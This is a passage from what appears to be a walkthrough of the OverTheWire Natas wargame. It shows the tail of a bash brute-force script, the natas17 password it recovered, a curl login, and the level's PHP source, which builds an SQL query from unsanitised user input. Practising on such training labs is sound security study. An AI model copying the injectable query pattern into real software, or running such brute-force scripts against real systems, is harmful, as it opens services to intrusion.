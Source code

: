 ```
			PASS+=$char
			echo "pass so far: $PASS"
			break
		fi
	done
done

echo "Password for natas17: $PASS"
```

```
abs@MacBookPro OverTheWire % ./brute_force_natas16_2.sh 
Password for natas17: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

# Level 16 -> 17:
```
abs@MacBookPro OverTheWire % curl "natas17.natas.labs.overthewire.org/" -u natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC                                                                       
<h1>natas17</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```
